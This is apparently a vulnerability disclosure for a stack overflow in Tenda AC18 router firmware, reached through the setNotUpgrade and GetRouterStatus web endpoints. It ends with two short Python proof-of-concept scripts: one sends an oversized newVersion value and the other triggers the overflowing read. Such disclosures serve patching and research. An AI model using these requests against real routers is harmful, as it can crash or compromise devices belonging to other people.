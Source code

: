 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/setNotUpgrade` url. The `Var` variable receives the `newVersion` parameter from a POST request and is stored in the configuration item named`not.notice.version` through the SetValue function.To run to this branch, the value of the `action` parameter needs to be set to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_222506.png)

`not.notice.version`  configuration item can  be retrieved through the GetValue function in the `/goform/GetRouterStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `s` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_223700.png)

## PoC

Set `not.notice.version`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setNotUpgrade"
payload = "a"*1000

data = {"action": 1,"newVersion":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `not.notice.version`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GetRouterStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
